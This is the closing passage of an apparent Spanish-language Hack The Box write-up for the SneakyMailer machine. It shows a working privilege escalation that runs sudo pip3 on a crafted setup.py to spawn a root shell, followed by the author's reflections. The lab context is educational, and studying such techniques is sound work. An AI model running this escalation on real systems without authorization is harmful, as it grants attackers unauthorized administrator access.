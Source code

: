 * [Info de como conseguir la Shell mediante pip](https://gtfobins.github.io/gtfobins/pip/).

```bash
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo usr/bin/pip3 install $TF
```

Yyyyyy...

![bashpip3shellroot](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/bashpip3shellroot.png)

Obtenemos la Shell como administrador, veamos las flags :)

![flagSneakymailer](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/flagSneakymailer.png)

...

Y eso es todo para esta máquina...

Muy enredada, poquito de locura pero se disfrutó, entendimos como son manejados los paquetes en python (PyPI) y jugamos un poco con "phishing" al inicio. Claramente la parte más desafiante fue la creación y ejecución del paquete pero de eso se trata, aprender y romperse la cabeza un poquito y lo más importante, nunca rendirse :)

La escalada quizás fue hecha para compensar el peso del inicio y la obtención del usuario. De igual forma es superinteresante ver que con 3 líneas ya eres administrador :P

Muchas gracias por leer y a romper todo, que pases un feliz y lindo día/noche/ninguna :P